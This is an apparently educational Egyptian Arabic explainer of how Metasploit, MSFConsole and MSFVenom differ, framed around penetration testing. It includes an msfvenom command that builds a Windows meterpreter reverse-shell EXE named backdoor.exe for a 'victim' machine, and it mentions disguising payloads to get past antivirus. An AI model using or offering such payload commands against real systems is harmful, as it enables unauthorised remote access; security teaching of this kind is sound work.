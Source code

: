 ### **الفرق بين Metasploit, MSFConsole, و MSFVenom (بأبسط طريقة)**

كل واحد من التلاتة ليه دور مختلف في اختبار الاختراق:

 1️⃣ **Metasploit** → هو **الإطار الكامل * اللي بيجمع كل الأدوات اللي بتساعدك في استغلال الثغرات.  2️⃣ **MSFConsole** → Metasploit هو **الواجهة الأساسية** اللي بتستخدمها للتفاعل مع 
 (زي الـ Terminal بتاعه).  
 3️⃣ **MSFVenom** →مخصصة** لاختراق الأنظمة Payloads  هي **الأداة اللي بتستخدمها عشان تصنع 
  .
---

### **💡 الخلاصة بالمصري:**

- **Metasploit** هو **المطبخ** اللي فيه كل أدوات الاختراق.
- **MSFConsole** هو **الشيف** اللي بتتكلم معاه عشان تستخدم الأدوات دي.
- **MSFVenom** بنفسك Payloads هو **الخلاط** اللي بتستخدمه عشان تحضر 

---

## **تفصيل سريع لكل واحد فيهم**

### **1️⃣ Metasploit (إطار العمل الأساسي) 🔥**

- ده الإطار اللي بيضم كل أدوات الاختراق الجاهزة.
- بيحتوي على آلاف الـ **Exploits، Payloads، و Scanners**.
- بيتم تشغيله عن طريق MSFConsole.

**📌 مثال:**  
بدل ما تدور على ثغرات وتكتب استغلالات بنفسك، Metasploit بيقدمها لك جاهزة للاستخدام.

---

### **2️⃣ MSFConsole (واجهة التشغيل) 💻**

- دي الواجهة الرئيسية اللي بتستخدمها عشان تتحكم في Metasploit.
- تقدر تبحث عن ثغرات، تختار Exploit، وتنفذ الهجمات.
- بتشتغل من خلال سطر الأوامر.

**📌 مثال:**  
تشغيل MSFConsole في Kali Linux:

```bash
msfconsole
```

البحث عن ثغرات FTP:

```bash
search ftp
```

---

### **3️⃣ MSFVenom (صانع الـ Payloads) 🎯**

- بيستخدم لإنشاء **ملفات خبيثة (Malware) بصيغة exe, apk, dll, وغيرها**.
- بيجمع بين أدوات `msfpayload` و `msfencode`.
- بيساعدك على صناعة Payload متخفي عشان تتخطى برامج الحماية.

**📌 مثال:**  
لو عايز تعمل **ملف اختراق EXE** يفتح Reverse Shell، تكتب:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe > backdoor.exe
```

ده هيصنع لك ملف EXE جاهز للتشغيل على جهاز الضحية.

---

### **🎯 الخلاصة بالمصري مرة تانية:**

✔ **Metasploit** = صندوق الأدوات الكبير اللي فيه كل حاجة.  
✔ **MSFConsole** = المكان اللي بتكتب فيه الأوامر عشان تستخدم الأدوات دي.  
✔ **MSFVenom** = الأداة اللي بتستخدمها عشان تعمل Payload مخصص لاختراق الضحايا.

---

💡 **لو عايز تجربة عملية لأي واحد فيهم، قولي ونبدأ مع بعض!** 🚀